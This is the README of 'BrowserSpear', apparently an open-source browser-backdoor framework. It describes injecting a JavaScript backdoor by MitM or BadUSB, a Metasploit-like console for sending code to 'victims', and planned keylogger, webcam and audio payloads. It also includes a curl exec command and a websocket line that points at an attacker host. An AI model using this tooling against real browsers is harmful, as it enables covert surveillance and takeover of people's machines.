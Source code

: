 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (backdoor.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Inquirer (nodejs-library: https://www.npmjs.com/package/inquirer) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets && npm install inquirer</pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- (DONE) For testing, if the servers root is requested, return the backdoor.html file
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- (DONE) interface should take commands to be sent to victims.
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of backdoor.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
